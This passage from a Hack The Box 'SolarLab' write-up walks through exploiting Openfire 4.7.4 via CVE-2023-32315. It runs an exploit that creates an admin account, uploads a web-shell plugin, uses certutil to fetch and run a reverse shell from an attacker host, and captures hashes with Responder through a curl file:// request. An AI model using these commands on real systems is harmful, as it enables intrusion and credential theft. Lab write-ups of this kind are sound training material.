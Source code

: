`Openfire, Version: 4.7.4`
https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT

There's an exploit for OpenFIre and this version doesn't appear to be patched.

```bash
┌──(fish㉿kali)-[~/htb/solarlab/CVE-2023-32315-EXPLOIT]
└─$ proxychains python3 CVE-2023-32315.py -u http://localhost:9090
...
[*] Launching exploit against: http://localhost:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW
```
![[Screenshots/SolarLab_image_25.png]]

![[Screenshots/SolarLab_image_26.png]]

And we can login to the web server.



![[Screenshots/SolarLab_image_27.png]]


Uploaded plugin
![[Screenshots/SolarLab_image_28.png]]

We can then find the tool at Server >> Server Settings >> Management Tool and we can plugin the password to access the web shell.

![[Screenshots/SolarLab_image_29.png]]

We can select system command from the pull down to execute commands
![[Screenshots/SolarLab_image_30.png]]

We can get a shell as the openfire user by downloading a rev shell and then sending a second command to execute it.
```bash
certutil.exe -urlcache -f http://10.10.14.7:9002/fish-9003.exe fish.exe 


./fish.exe
```

We can capture the hash for the user by setting up responder then performing a curl request
```bash
C:\Program Files\Openfire>curl.exe file://10.10.14.7/test
curl.exe file://10.10.14.7/test
curl: (37) Couldn't open file //10.10.14.7/test
```

